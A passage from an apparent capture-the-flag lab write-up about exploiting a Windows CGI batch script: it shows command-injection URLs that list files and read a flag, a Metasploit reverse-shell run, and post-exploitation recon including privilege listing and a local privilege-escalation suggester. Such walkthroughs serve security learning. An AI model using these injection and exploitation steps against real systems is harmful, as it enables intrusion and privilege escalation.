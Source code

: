 4.  **flag** it was given that :

    > "To solve Elf McSkidy's problem with the elves slacking in the workshop, he has created the CGI script: elfwhacker.bat"
	
    - so excuting `http://10.10.36.221:8080/cgi-bin/elfwhacker.bat?&dir` got to list the cotents of the directory

    - there was the file `flag1.txt` and displayed the content of the file by : 
	http://10.10.36.221:8080/cgi-bin/elfwhacker.bat?&type+flag1.txt

5.  **metaspolit**

    - searching for the exploit `use CVE_no`

    - setting lhosts(listning host), rhost(target), and ports on both(dont need to be same), and the targeturi `/cgi-bin/<binary>`

    - run

    - failed


6.  **metaspolit 2nd try**

    - searching for the exploit `use CVE_no`

    - setting lhosts(listning host), rhost(target), set lport to `4004`, and the targeturi `/cgi-bin/<binary>`
    
    - run `exploit`
    
    - SUCCESSFULL
    
    - user id : TBFC-WEB-01\elfmcskidy (`getuid`)
    
    - OS : Windows 2016+ (10.0 Build 17763) on x64 platform. (`sysinfo`)
    
    - priviledges of current user : 
        ```
        SeBackupPrivilege
        SeChangeNotifyPrivilege
        SeCreateGlobalPrivilege
        SeCreatePagefilePrivilege
        SeCreateSymbolicLinkPrivilege
        SeDebugPrivilege
        SeImpersonatePrivilege
        SeIncreaseBasePriorityPrivilege
        SeIncreaseQuotaPrivilege
        SeIncreaseWorkingSetPrivilege
        SeLoadDriverPrivilege
        SeManageVolumePrivilege
        SeProfileSingleProcessPrivilege
        SeRemoteShutdownPrivilege
        SeRestorePrivilege
        SeSecurityPrivilege
        SeShutdownPrivilege
        SeSystemEnvironmentPrivilege
        SeSystemProfilePrivilege
        SeSystemtimePrivilege
        SeTakeOwnershipPrivilege
        SeTimeZonePrivilege
        SeUndockPrivilege
        ```
    - checking for if we'er in VM: This is a VMware Virtual Machine (`run post/windows/gather/checkvm`)
    - to check if prev esc is posssible(`run post/multi/recon/local_exploit_suggester`)
    Found two vulnerabilities :
    ```
    [+] <target> - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
    [+] <target> - exploit/windows/local/ikeext_service: The target appears to be vulnerable.